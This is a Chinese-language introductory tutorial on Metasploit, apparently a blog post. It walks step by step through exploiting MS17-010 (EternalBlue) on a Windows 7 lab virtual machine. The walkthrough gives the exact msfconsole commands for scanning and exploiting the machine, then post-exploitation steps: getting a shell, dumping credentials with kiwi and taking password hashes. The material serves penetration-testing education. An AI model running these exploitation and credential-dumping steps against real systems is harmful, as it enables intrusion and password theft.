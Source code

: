 ```yaml
---
title: metasploit渗透测试入门
date: 2024-11-15 19:48:49
tags:
---
```


# metasploit渗透测试入门

![loading-ag-445](metasploit渗透测试入门/eda8f852311aeedff007fa3c146d4a0ccb113e3e.png)

![](metasploit渗透测试入门/5a10b2b436d19787fabe4a53785605bf3e48d9d0.png)

WannaCry勒索病毒席卷全球，一旦中了WannaCry病毒电脑文件会被“加密劫持”，黑客要求受害者支付高昂赎金（比特币）才能拿到解密秘钥。 而这枚WannaCry勒索病毒，就是黑客拿着美国安全局泄露的永恒之蓝攻击代码进行研制，并进行大肆勒索传播。

MS17-010是Windows SMBv1服务中存在的远程代码执行漏洞；
 • 开启SMB服务（ 445端口） 的的系统可被执行远程代码， 从而导致被远程控制；
 • 受影响系统： Windows XP、 Windows 7/8/10、 Server 2003/2008/2012/2016

只要用户打上MS17-010这个补丁，就可以避免这次攻击。

## MSF 基础简介

Metasploit 是一个渗透测试平台，使您能够查找，利用和验证漏洞。该平台包括 Metasploit 框架及其商业对手，如 Metasploit Pro。 Metasploit 目前是全球最常见的渗透测试框架，位居 secTools 排行榜第 2 位。

metasploit是一款kali自带的漏洞利用神器，在接下来的2个案例中，我们将<u>利用WIN7主机的ms17-010漏洞和XP主机的ms08-067漏洞</u>，进行渗透攻击演示，并获得目标主机的控制权，带你闯进渗透测试的神之领域。实验可以参考David Kennedy的《Metasploit:The Penetration Tester's Guide》，清华大学诸葛建伟老师翻译的《Metasploit渗透测试指南》。

在**kali虚拟机**中打开**metasploit**，命令行输入：`msfconsole`

<mark>MSF 模块组织按照不同的用途分为 7 种类型的模块（Modules）：</mark>

1、辅助模块 Auxiliary（Aux)，执行扫描之类的动作

2、渗透攻击模块 Exploits，用于实际发起渗透攻击

3、攻击载荷模块（payloads) 目标系统被成功渗透后执行的代码，payload 中的主要内容包括 shellcode，一段获取 shell 的代码。

后面这几个模块一般不是很常用，大家简单的了解一下

4、后渗透攻击模块（Post)

5、编码器模块（Encoders)

6、空指令模块（Nops)

7、免杀模块 （evasion)

<mark>MSF 常用命令</mark>

```
search 根据关键字搜索模块 
show auxiliary 查看所有可用的辅助攻击模块 
show exploits 查看所有可用的渗透攻击模块 
show targets 查看所有载荷代码
show options 
info 显示模块的详细信息 
use 使用指定的测试模块 
back 退出一级
exit 退出
set/unset 设置/取消 当前模块的参数
run/exploit 执行扫描/渗透（2都相同效果）
```

实战：ms17-010 永恒之蓝

查找 ms17-010 漏洞模块，搜索ms17-010相关漏洞利用代码： 
msf5 > search ms17-010

![](metasploit渗透测试入门/a407b4cba8e4b90ee8e7fd7d59b2d52996bf8f22.png)

![](metasploit渗透测试入门/2a26300befbffa17c2ba8ecadb69c3c8b45991d0.png)

![](metasploit渗透测试入门/0862cf5b165437ac801778afa9704d627edc4618.png)

![](metasploit渗透测试入门/2ace2cb635e639587e21a850f0b364cf76eef144.png)

##### <mark>实战：ms17-010 永恒之蓝</mark>

```
需准备环境：Kali-Linux、Windows 7 虚拟机
Kali-Linux ：192.168.182.128
Windows 7： 192.168.182.134（确保处在同个网络下，能互相ping通）
```

第一步：

查找 ms17-010 漏洞模块，搜索ms17-010相关漏洞利用代码： 
msf6 > search ms17-010

![](metasploit渗透测试入门/f65b3dca8ecb31a23577e4e6ba6962faa3e87ee9.png)

这里可以得到两个工具，其中

**auxiliary/scanner/smb/smb_ms17_010**是永恒之蓝扫描模块，**exploit/windows/smb/ms17_010_eternalblue**是永恒之蓝渗透代码，

前者先扫描，若显示有漏洞，再用后者进行渗透。

第二步：

```
使用ms17-010扫描模块对靶机Win7进行扫描，才能进行下一步的渗透操作。
msf6 > use 3   //使用ms17-010扫描模块，对靶机Win7进行扫描
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOST 192.168.86.132   //设置目标IP或网段
RHOST => 192.168.86.132
msf6 auxiliary(scanner/smb/smb_ms17_010) > run   //执行扫描

[+] 192.168.182.134:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)   //说明扫描到的这台win 7存在ms17-010漏洞
[*] 192.168.182.134:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_ms17_010) > back
```

![](metasploit渗透测试入门/d09f62c099a26f1f397576023f83af77ad0d31f3.png)

从上图画红线处知道，扫描到的这台win7 存在ms17-010漏洞

第三步：

```
使用ms17-010渗透模块对靶机Win7进行渗透
msf6 > use 0   //使用ms17-010渗透模块对靶机Win7进行渗透
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options  //查看可设置的选项
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 192.168.182.134
RHOST => 192.168.182.134   //设置渗透目标IP
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit   //执行渗透
```

![](metasploit渗透测试入门/4bc0ab674fd9e7529eb6ac5d7538693e1c0dd92a.png)

![](metasploit渗透测试入门/66ba7fc4908ffcfa0b7b82bc686e3820438307c5.png)

从上图可见已经成功渗透到win7。

不信！那你可以用pwd，dir，shell 检查一下,或是execute -i -f cmd.exe来执行cmd命令，又或者可以screenshot截图

![](metasploit渗透测试入门/9eec7d01622ce0d8fcd9640995e2de29933f3a7f.png)

![](metasploit渗透测试入门/588549d38cf8fc5ce11280eb3b1cc2b9f7ee8d1b.png)

或者也可以用以下2条命令查看系统用户名和密码

```
load kiwi
creds_all
```

![](metasploit渗透测试入门/6fe033baccfc41288ad6d787c56426f8b75705e9.png)

到了这里，上面这些命令的执行，都是后渗透测试的问题了，既是windows下的cmd命令及其相关操作的事情了。下面再来一个获得用户hash值的命令

`run post/windows/gather/hashdump`

![](metasploit渗透测试入门/dd1b7a71f912663ff9bcc131969d1409525cce78.png)

![](metasploit渗透测试入门/4d4f742c5f19cef39b952324c9c120b4a61ed63c.png)

注：不要忘记了保存哦，下次可以直接再利用哈～下面借别人的图展示：

![](metasploit渗透测试入门/01a74c8cbd00d662af1d6e41c15dbd613947e9e3.jpg)

后渗透测试中会有很多好玩的指令操作，如打开摄像头，删除文件，删除目标主机目录，创建系统用户等等。

![](metasploit渗透测试入门/85a98c0d5bb71142f0e74a173b6faf1bc6d24a53.gif)

![](metasploit渗透测试入门/7976c0056e23f81c48a5e58c3c590d627a882e33.png)

![](metasploit渗透测试入门/0d1cb80ec5a6b930880952b22bcafd244716b33d.png)

![](metasploit渗透测试入门/fec279cd0cec3e3ebd0f93b1ffb8ee97ad616631.png)
